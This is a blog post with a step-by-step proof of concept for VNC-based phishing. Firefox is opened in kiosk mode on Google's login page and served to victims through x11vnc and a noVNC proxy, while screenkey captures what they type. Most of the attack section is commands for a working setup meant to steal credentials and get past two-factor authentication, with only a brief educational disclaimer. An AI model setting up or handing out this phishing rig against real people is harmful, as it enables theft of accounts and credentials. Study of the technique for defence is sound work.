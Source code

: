 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: Exploring the Sophisticated Potential of VNC for Phishing Attacks
tags: phishing-attacks, cyber-threats, information-security, hacking-techniques, malicious-activities
categories: Hacking, Internet Security
thumbnail: assets/img/posts/2/purple-hacker.jpg
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

---

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux machine that is fully updated

---

### PoC

First, we launch Firefox or any other browser in kiosk mode with the website we want to phish. For this example, we will use Google accounts.

Kiosk mode is a feature that can restrict user activities and interactions outside the intended scope of operation, this is necessary to prevent the victim from controlling other areas of our attacking machine, which may lead to unwanted access or control.

In the terminal, execute:

```bash
firefox --kisok https://accounts.google.com
```

Now, in a new terminal window, we will run a noVNC server:

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Now, we need to obtain the ID of the running Firefox process:

1. Run `xwininfo | grep id` in the terminal
2. Click on the Firefox window.
3. In the terminal, the window ID will be displayed.

{% include figure.liquid loading="eager" path="assets/img/posts/2/3.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Once we have obtained the window ID of Firefox using `xwininfo`, we can start a local VNC server by running:

```bash
sudo apt install x11vnc
x11vnc -id <window_id>
```

Once we have started the local VNC server, we can use the `screenkey` tool to view key presses by the victim in real time. It is important to note that `screenkey` will display our own key presses as well.

```bash
sudo apt install screenkey
screenkey
```

### Victim

Fantastic! Our phishing setup is all set and can now be accessed through the following URL: `http://<ip>:8080/vnc.html?autoconnect=true`

As soon as a victim visits this URL, they will see what looks like the Google accounts login page. Little do they know, it's actually a live streaming video that they can interact with. It's a pretty sneaky and clever trick.

{% include figure.liquid loading="eager" path="assets/img/posts/2/4.png" class="img-fluid rounded z-depth-1" zoomable=true %}

### Credits

[Steal Credentials & Bypass 2FA Using noVNC](https://mrd0x.com/bypass-2fa-using-novnc/) (mr.d0x, 2020)

